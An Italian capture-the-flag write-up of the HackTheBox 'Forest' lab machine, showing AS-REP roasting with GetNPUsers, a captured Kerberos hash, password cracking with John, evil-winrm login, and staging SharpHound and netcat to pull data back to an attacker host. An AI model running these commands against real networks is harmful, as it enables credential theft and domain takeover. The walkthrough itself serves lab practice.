 ## KRoasting

```
./GetNPUsers.py htb.local/ -dc-ip 10.10.10.161 -request
```
```
$krb5asrep$23$svc-alfresco@HTB.LOCAL:ec4d096609a114fdd785e8801296118b$d4d812103974b1956e271eba42443d7c7a730d8b8d51a3c9f95e2c689f7cf8d14d2852e56bc450307450b6dc0a81bfd3b7aa12daf6e8272d4075326873068f5c5fedca2fb306364a47ce9419ca852b76d47acb4712d5adaa236bab4e868f306f5cbd35fc78af74708623c68374aefc3ba120217173f91f9eb352fff0ebec23d99a6d479a061eddd60a326e9e3ea68dac62f62314944ef34ee61f31cbf49c02fc1268312aee4e65baa231bdf33d353e7c6f221ce8e7e89a53158f5a8b2672a717231ee3f5040f2bd58dfba3b92132f9d5c331c921978b8b6375673b40ba2456737e8c7e16ed5c
```


--OPPURE--


```
python GetNPUsers.py htb.local/ -no-pass -usersfile ../../forest_user.txt -dc-ip 10.10.10.161
```

Il contenuto di forest_user.txt è dato da enum4linux. Tra cui c'è svc-alfresco che è l'unico per cui si riesce ad estrarre l'hash.


## PassTheHash (?)

Benissimo, ottenuto l'hash finalmente posso mettere in pratica una tecnica che ho sempre voluto provare: la PTH:

```
evil-winrm -u svc-alfresco -H "6a2929599dd19458e2c15587a7c870e5$d7a17216a7094b7ddece4533f3255c63b0906bfde35e2bdb75c40bff8f791a2a0d80d905e8d306a5d1e1060a9cb7c44f652caf14c7e74138259ddda20a9a1040a236d708f183cae602c195261bf614a381d822b11ecf3870becd7a1b4f7c9db4339023bf7aa7d5e7ddf00836385f075f52a814e63df0826a4b6937d3789bafa0c2c9735bbd9378b50125db20fad4a884b4e7f298cb5a8e244fa31b4c379a9131f4977ff4bd5a270e3d6e52e3ae32bdd550312cdba3ea40891033b330791bc3415a709fcd592165b3e4a6b0150a58f1ffe962a9a2783d4b973c99c118cae4535030169f2c8f63" -i 10.10.10.161
```

Come non detto, quella tecnica non funziona.

Rompo l'hash banalmente con John:

```
john --wordlist=rockyou.txt hash.txt
```

Ed entro con la password:

```
evil-winrm -u svc-alfresco -p s3rvice -i 10.10.10.161
```

A questo punto presa la tanta faticata user flag comincio con la fase di PrivEsc. Dato il nome della challenge capisco che devo interagire con l'Active Directory. Uso per tal motivo BloodHound.

## PrivEsc

Prima cosa che faccio è scaricare dentro \tmp l'exe necessario: SharpHound. Provo con un wget e curl ma non funzionano. Banalmente lo carico in una cartella 'pubblica' (python simplehttpserver) e lo scarico all'interno della macchina con:
```
Invoke-WebRequest http://IP:8000/SharpHound.exe -o SharpHound.exe
```
Lo eseguo con 
```
.\SharpHound.exe -c all
```
Lascio che prelevi tutto e che generi i vari due file (.zip e .bin). A questo punto sorge un problema! Come passare dalla macchina Win a Linux i due file? 


Con la stessa tecnica di prima carico dentro la macchina NetCat, quindi passo verso Kali i due file:
```
.\nc.exe -w 3 IP 9191 | 20200317113311_BloodHound.zip
```


